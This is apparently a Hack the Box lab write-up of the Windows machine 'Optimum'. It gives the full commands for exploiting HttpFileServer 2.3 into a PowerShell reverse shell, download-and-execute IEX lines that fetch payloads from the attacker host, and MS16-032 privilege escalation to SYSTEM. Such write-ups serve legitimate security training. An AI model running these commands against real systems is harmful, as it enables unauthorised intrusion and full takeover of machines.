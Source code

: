 ```yaml
---
title: Hack the Box - Optimum
date: 2022-08-16 21:09:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Optimum Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.8|Optimum|Windows|

## Path to Exploitation

The path of explotation for this machine starts with a vulnerable web-app that we leverage to gain our initial foothold. We then enumerate the machine until we identify a potential kernel exploit that could elevate our privileges, problem is, it requries a GUI. Fortunately there's an alternative script that allows us to elevate our privileges without needed access to a GUI.

# Optimum Enumeration

## Full Port Scan

```bash
nmap 10.10.10.8 -p- -oA Optimum/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.8 -p 80 -sC -sV -oA Optimum/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|httpd 2.3|

# Website

![Landing Page](/assets/HackTheBox/Optimum/landing-page.png "Site Landing Page")

We immediately see the version of the application is HttpFileServer 2.3. A simple google search reveals several available RCE's affecting this application. We can try to launch a reverse shell using this [script](https://www.exploit-db.com/exploits/49584). 

## Shell on Host

Copy the Invoke-PowerShellTcp.ps1 script to our working directory and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Host an HTTP Server:

```shell
$ sudo python3 -m http.server 80
```

Finally, setup a listener and execute the script:

```shell
$ python3 exploit2.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We see we have caught a reverse shell running as the kostas user

![Initial Foothold](/assets/HackTheBox/Optimum/initial-foothold.png "Intial Foothold")

# Privilege Escalation

## Enumerating with Sherlock

We can execute Sherlock.ps1 with the following command:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/sherlock.ps1')
```

We see three potential Kernel exploits
![Sherlock Output](/assets/HackTheBox/Optimum/sherlock-out.png "Sherlock Output")

We will start with MS16-032 but are unable to get it to work since it requires access to a GUI. There is an [alternative script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) that can be used when a GUI is not available. This script gives us the opportunity to pass commands to be executed as SYSTEM.

## Getting to SYSTEM

Use the MS16-032 exploit [PowerShell Script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) and append the following line to the bottom of the file

```shell
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

This will execute the privilege escalation script and tell it to run our reverse shell payload as the SYSTEM account.

Trigger the exploit by running the following command on the machine:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-MS16032.ps1')
```

When we check on our HTTP Server we see two requests, one for Invoke-MS16032.ps1 and one for Invoke-PowerShellTcp.ps1

![HTTP Requests](/assets/HackTheBox/Optimum/http-requests.png "HTTP Requests")

When we check on our listener, we see we've have caught a shell running as the SYSTEM user

![Getting SYSTEM](/assets/HackTheBox/Optimum/priv-esc.png "SYSTEM Shell")